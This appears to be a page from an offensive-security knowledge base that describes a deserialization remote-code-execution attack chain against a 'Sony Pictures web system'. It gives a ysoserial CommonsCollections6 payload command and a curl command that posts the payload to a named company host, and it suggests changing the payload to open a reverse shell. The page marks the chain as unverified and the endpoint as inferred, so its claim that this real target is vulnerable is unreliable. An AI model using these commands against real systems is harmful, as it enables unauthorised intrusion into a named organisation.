

# RCE via Deserialization of Untrusted Data in Sony Pictures Web System

Multi-stage attack chain demonstrating a complete attack workflow targeting insecure deserialization in a web application.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ysoserial]]
- [[tools/curl]]

### Target Environment

- Web platform with vulnerable deserialization endpoint
- HTTP/HTTPS access to the target server
- Knowledge of the serialization format (e.g., Java Object Serialization)

### Initial Access Requirements

- Public-facing web application
- No authentication required for the vulnerable endpoint
- Network access to the Sony Pictures web system

## Detailed Attack Procedures

### Step 1: Exploit Deserialization for RCE
procedure: [[procedures/Exploit-Deserialization-for-RCE]]

**Objective**: Send a malicious serialized payload to the vulnerable endpoint to trigger remote code execution on the server.

**Instructions**: Identify the deserialization endpoint (inferred as a parameter in the Sony Pictures web system handling user input). Generate a gadget chain payload using ysoserial for Java-based serialization, then transmit it via HTTP POST using curl to invoke RCE, such as spawning a reverse shell.

First, generate the payload with [[commands/ysoserial-generate-payload]]:

```bash
java -jar ysoserial.jar CommonsCollections6 'touch /tmp/pwned' > payload.ser
```

Then, send the payload to the target endpoint using [[commands/curl-send-serialized-payload]]:

```bash
curl -X POST -H "Content-Type: application/octet-stream" --data-binary @payload.ser https://target.sonypictures.com/vulnerable-endpoint
```

**Expected Output**: Server processes the payload, executes the command (e.g., file creation at /tmp/pwned), confirming RCE without visible client-side errors.

**Success Indicators**:
- File or process created on the server (verifiable if access obtained)
- No deserialization errors in server logs (if accessible)
- Reverse shell connection established if payload modified for it

## Attack Chain Summary

### Key Achievements

1. Achieved remote code execution via crafted serialized data
2. Demonstrated critical impact on web server integrity
3. Highlighted lack of input validation in deserialization process

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
